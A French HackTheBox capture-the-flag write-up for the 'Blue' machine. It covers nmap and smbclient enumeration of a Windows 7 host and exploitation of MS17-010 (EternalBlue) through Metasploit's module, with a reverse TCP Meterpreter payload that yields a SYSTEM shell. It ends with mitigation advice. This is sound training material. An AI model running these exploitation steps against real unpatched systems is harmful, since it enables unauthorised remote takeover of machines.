

# HackTheBox - Blue Write-up 🇫🇷

## Introduction

Bonjour à tous,

Voici mon write-up pour la machine **Blue** sur HackTheBox — une machine classée facile, axée sur la vulnérabilité EternalBlue, tristement célèbre pour avoir été exploitée dans de nombreuses campagnes de ransomware et de cryptominage.

Comme d'habitude, ce guide suit les étapes classiques d'un test d'intrusion :

- Reconnaissance
- Exploitation
- Post-exploitation

## Informations

- 💻 **Type de machine** : Windows
- **🧠 Compétences clés** : Énumération, exploitation SMB
- **📦 Outils utilisés** : Nmap, smbclient, Metasploit

Cette machine est idéale pour pratiquer l'énumération et l'exploitation SMB sur un hôte Windows, et pour se familiariser avec Metasploit.

---

## Préparation

Commencez par ajouter l'adresse IP de la cible au fichier `/etc/hosts` afin de faciliter les interactions avec la machine cible.

```bash
echo "10.129.164.129 target" | sudo tee -a /etc/hosts

```

Ou avec nano :

```bash
sudo nano /etc/hosts
10.129.164.129 target # Ajouter cette ligne

```

Cela nous permet d'accéder à l'adresse IP `10.129.164.129` via le nom suivant : `target`.

**Attention : l'adresse IP de la cible `10.129.164.129` peut changer au cours du write-up.**

Vérifions la connectivité au VPN HackTheBox avec un ping simple :

```bash
ping -c 4 target
PING target (10.129.164.129) 56(84) bytes of data.
64 bytes from target (10.129.164.129): icmp_seq=1 ttl=127 time=96.9 ms
64 bytes from target (10.129.164.129): icmp_seq=2 ttl=127 time=119 ms
64 bytes from target (10.129.164.129): icmp_seq=3 ttl=127 time=143 ms
64 bytes from target (10.129.164.129): icmp_seq=4 ttl=127 time=61.6 ms

--- target ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3008ms
	rtt min/avg/max/mdev = 61.639/105.070/142.651/29.847 ms
```

Cela confirme que la machine cible est accessible depuis notre machine d'attaque.

Notez que cette vérification ne fonctionnera pas si la cible bloque l'ICMP ; il faudra alors utiliser une autre méthode.

## Énumération

Comme souvent, on commence par une énumération active avec Nmap en utilisant le profil agressif `-A` afin de collecter un maximum d'informations dès le premier scan.

```bash
nmap -A -oN scan.txt -oX scan.xml target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 11:00 CEST
Nmap scan report for target (10.129.164.129)
Host is up (0.11s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 7|2008|8.1|2012|Vista|2016|10 (98%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::sp1:home_premium cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (98%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (95%), Microsoft Windows 7 SP1 (94%), Microsoft Windows 8 (93%), Microsoft Windows Vista Enterprise (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m47s, deviation: 34m36s, median: 10s
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-08-18T10:02:12+01:00
| smb2-time:
|   date: 2025-08-18T09:02:09
|_  start_date: 2025-08-18T08:50:35
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   113.17 ms 10.10.16.1
2   34.65 ms  target (10.129.164.129)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.76 seconds
```

Le scan est terminé. Nous pouvons déjà retenir plusieurs points :

- **Port 135** : Microsoft RPC (MSRPC) est ouvert.
- **Ports 139/445** : Ports liés à SMB (NetBIOS sur 139 ; SMB sur 445). Il est probable que des partages SMB soient accessibles — information cruciale pour la suite.

→ Les scripts NSE et la détection d'OS indiquent très probablement une machine Windows 7.

Pour plus de lisibilité, j'utilise mon script [Nmap2Table](https://github.com/0xMR007/Nmap2Table.git) pour générer un tableau à partir du XML :

```bash
nmap2table scan.xml
Starting main script...

Extracting nmap data from /home/mr007/CTFs/HackTheBox/Blue/scan.xml
Generating output to /home/mr007/CTFs/HackTheBox/Blue/table.md
Successfully wrote to file : /home/mr007/CTFs/HackTheBox/Blue/table.md

ls
scan.txt  scan.xml  table.md
```

Résultat en Markdown :

### Hôte : 10.129.2.27 (target)

| Port/Protocole | État | Service      | Version                                                 |
| -------------- | ---- | ------------ | ------------------------------------------------------- |
| 135/tcp        | open | msrpc        | Microsoft Windows RPC                                   |
| 139/tcp        | open | netbios-ssn  | Microsoft Windows netbios-ssn                           |
| 445/tcp        | open | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds |
| 49152/tcp      | open | msrpc        | Microsoft Windows RPC                                   |
| 49153/tcp      | open | msrpc        | Microsoft Windows RPC                                   |
| 49154/tcp      | open | msrpc        | Microsoft Windows RPC                                   |
| 49155/tcp      | open | msrpc        | Microsoft Windows RPC                                   |
| 49156/tcp      | open | msrpc        | Microsoft Windows RPC                                   |
| 49157/tcp      | open | msrpc        | Microsoft Windows RPC                                   |

### Q1 - Combien de ports TCP ouverts écoutent sur Blue ? (Ne pas inclure les ports à 5 chiffres.)

D'après le tableau, seuls 3 ports TCP ouverts n'ont pas 5 chiffres.

**Réponse :** `3`

### Q2 - Quel est le nom d'hôte (hostname) de Blue ?

Grâce aux scripts NSE et à la détection d'OS, on obtient le nom d'hôte : `HARIS-PC`.

**Réponse :** `HARIS-PC`

### Q3 - Quel système d'exploitation tourne sur la cible ? (Réponse en deux mots : nom + version majeure.)

En se basant sur la détection d'OS, la réponse est valide.

**Réponse :** `Windows 7`

### Q4 - Combien de partages SMB sont disponibles sur Blue ?

Pour cette question, on utilise `smbclient` afin d'interagir avec les partages SMB.

Essayons d'énumérer les partages disponibles :

```bash
smbclient -L target -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to target failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

**Explication de la commande :** nous listons les partages disponibles (`-L`) sur `target` sans mot de passe (`-N`), puisque nous n'avons pas d'identifiants.

Parfait : 5 partages sont listés.

**Réponse :** `5`

### Q5 - Quel bulletin de sécurité Microsoft de 2017 décrit une vulnérabilité RCE dans SMB ?

Après une courte recherche, il s'agit de `MS17-010`.

**Réponse :** `MS17-010`

### Q6 - (Optionnel) Un ver s'est propagé en mai 2017 principalement via MS17-010. Quel est son nom ?

`MS17-010` a été exploité par le célèbre ransomware WannaCry.

**Réponse :** `WannaCry`

## Exploitation

### Q7 - Avec quel utilisateur obtient-on l'exécution en exploitant MS17-010 ? (Inclure le nom complet, avec ce qui précède un éventuel `\`.)

Nous allons maintenant exploiter la vulnérabilité **MS17-010 (EternalBlue)**.

Pour cela, nous utilisons _Metasploit_, un framework de pentest très utile qui propose des modules pour l'énumération (auxiliary), l'exploitation (exploits) et la post-exploitation (post), entre autres.

Si vous ne connaissez pas Metasploit, je vous recommande ce module d'introduction : [Metasploit sur TryHackMe](https://tryhackme.com/module/metasploit)

Lançons la console Metasploit :

```bash
msfconsole
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Recherchons un module d'exploitation pour **MS17-010** :

```bash
msf6 > search ms17

Matching Modules
================

0   exploit/windows/smb/ms17_010_eternalblue   2017-03-14   average  Yes   MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
10  exploit/windows/smb/ms17_010_psexec        2017-03-14   normal   Yes   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
24  auxiliary/scanner/smb/smb_ms17_010                      normal   No    MS17-010 SMB RCE Detection
```

Concentrons-nous sur EternalBlue : utilisons le premier module et affichons ses options.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s)
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique
   LHOST     192.168.0.48     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Il suffit de définir `RHOSTS` et `LHOST`, qui correspondent respectivement à l'adresse IP de la cible et à notre adresse locale (interface HTB), puis d'exécuter l'exploit :

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.10.16.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts target
rhosts => target
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.16.21:4444
[*] 10.129.2.27:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.2.27:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.2.27:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.2.27:445 - The target is vulnerable.
[*] 10.129.2.27:445 - Connecting to target for exploitation.
[+] 10.129.2.27:445 - Connection established for exploitation.
[+] 10.129.2.27:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.2.27:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.2.27:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.2.27:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.2.27:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.129.2.27:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.2.27:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.2.27:445 - Sending all but last fragment of exploit packet
[*] 10.129.2.27:445 - Starting non-paged pool grooming
[+] 10.129.2.27:445 - Sending SMBv2 buffers
[+] 10.129.2.27:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.2.27:445 - Sending final SMBv2 buffers.
[*] 10.129.2.27:445 - Sending last fragment of exploit packet!
[*] 10.129.2.27:445 - Receiving response from exploit packet
[+] 10.129.2.27:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.2.27:445 - Sending egg to corrupted connection.
[*] 10.129.2.27:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.129.2.27
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.16.21:4444 -> 10.129.2.27:49158) at 2025-08-18 18:26:27 +0200

meterpreter >
```

Parfait ! Nous avons obtenu une session Meterpreter. Vérifions l'utilisateur :

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

La session Meterpreter s'exécute sous `NT AUTHORITY\SYSTEM`, l'utilisateur le plus privilégié sur Windows. Nous avons donc un contrôle total de la cible.

### Drapeaux

À présent que nous avons l'accès, récupérons les flags.

```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > cd Users\\haris\\Desktop\\
meterpreter > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 09:58:32 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  user.txt

meterpreter > cat user.txt
[redacted]

meterpreter > cd /
meterpreter > cd Users\\Administrator\\Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 08:56:40 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  root.txt

meterpreter > cat root.txt
[redacted]
```

**Réponses :**

- **user.txt → `[redacted]`**
- **root.txt → `[redacted]`**



## Récapitulatif

Cette machine consistait à exploiter un hôte Windows vulnérable à **EternalBlue**. Nous avons d'abord récupéré toutes les informations importantes durant la phase d'énumération pour identifier les services SMB et des détails sur l'OS. Nous avons ensuite exploité EternalBlue via Metasploit pour obtenir un accès de niveau SYSTEM. Enfin, nous avons récupéré les drapeaux et terminé la machine.

## Ce que j'ai appris

- Mieux utiliser Nmap et smbclient pour l'énumération SMB
- Comprendre l'impact et la dangerosité d'EternalBlue
- Exploiter EternalBlue avec Metasploit de bout en bout

## Mesures de mitigation

- Mettre à jour les hôtes Windows avec les derniers correctifs (MS17-010)
- Restreindre l'accès aux partages SMB (pare-feu, segmentation, ACL)
- Définir des politiques de mots de passe robustes pour SMB
- Utiliser SMB v3 et désactiver SMBv1 lorsqu'il est possible de le faire

## Remerciements

Merci d'avoir lu jusqu'au bout ! Le partage de connaissances fait la force de la communauté CTF.

J'espère que ce write-up vous a été utile — ou au moins intéressant. Et n'oubliez pas :

_Chaque vulnérabilité est une leçon déguisée — plus on casse, mieux on comprend comment construire._